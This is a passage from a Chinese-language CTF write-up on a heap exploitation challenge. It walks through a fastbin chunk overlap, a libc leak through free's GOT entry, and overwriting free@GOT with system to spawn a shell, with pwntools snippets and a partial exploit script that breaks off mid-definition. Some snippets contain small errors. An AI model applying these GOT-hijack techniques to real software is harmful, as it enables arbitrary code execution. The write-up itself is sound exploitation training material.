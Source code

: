    ![image-20240709155927573](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407091559709.png)

5. 此时再申请一个大小为0x30的chunk2，就会将fastbins[0x40]分配给我们（但是实际的大小只有0x18，但是写入的大小就是0x30了），可以导致chunk之间的覆盖（变向堆溢出）。但是如何填充数据泄漏libc地址呢？，需要使用到show函数，并且利用前面造成的堆溢出将content地址改为函数的got表地址（这里以free函数为例）：

   ![image-20240709160525868](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407091605924.png)

   ```python
   add(0x30,b"A"*16 + p64(0)*+p64(0x21)+p64(0x30)+p64(elf.got["free"]))  #2
   ```

   ![image-20240709161225369](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407091612531.png)

   调用show函数输出chunk2就能泄漏libc地址，再计算活得system的地址：

   ```python
   printf(1)
   p.recvuntil(b"Content : ")
   addr = u64(p.recv(6).ljust(8,b'\x00'))
   print(hex(addr))
   libc_base = addr - 0x844f0
   sys_addr = libc_base + 0x45390
   sh_addr = libc_base + 0x18cd17
   log.success("libc_addr==>"+hex(libc_base))
   log.success("system_addr==>"+hex(sys_addr))
   log.success("bin_sh_addr==>"+hex(sh_addr))
   
   ```

   ![image-20240709161346767](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407091613867.png)

6. 最后利用edit(2)，将free函数的got表中的数据修改为system的地址，即可完成对free函数的挟持，前面再第一次溢出在content处时填入的"/bin/sh"其地址就会作为free函数的参数（system("/bin/sh")）：

   ![image-20240709162238290](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407091622343.png)

   ```python
   edit(1,p64(sys_addr))
   ```

   ![image-20240709161912317](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407091619532.png)

7. 最后free(0)即可拿到flag。EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   # 设置系统架构, 打印调试信息
   # arch 可选 : i386 / amd64 / arm / mips
   context(os='linux', arch='amd64', log_level='debug')
   
   # p = remote("node5.buuoj.cn",25567)
   p = process("./pwn")
   libc = ELF('./libc-2.23.so')
   elf = ELF("./pwn")
   n2b = lambda x    : str(x).encode()
   rv  = lambda x    : p.recv(x)
   ru  = lambda s    : p.recvuntil(s)
   sd  = lambda s    : p.send(s)
   sl  = lambda s    : p.sendline(s)
   sn  = lambda s    : sl(n2b(n))
   sa  = lambda t, s : p.sendafter(t, s)
   sla = lambda t, s : p.sendlineafter(t, s)
   sna = lambda t, n : sla(t, n2b(n))
   ia  = lambda      : p.interactive()
   rop = lambda r    : flat([p64(x) for x in r])
   def add(size,content):
   ```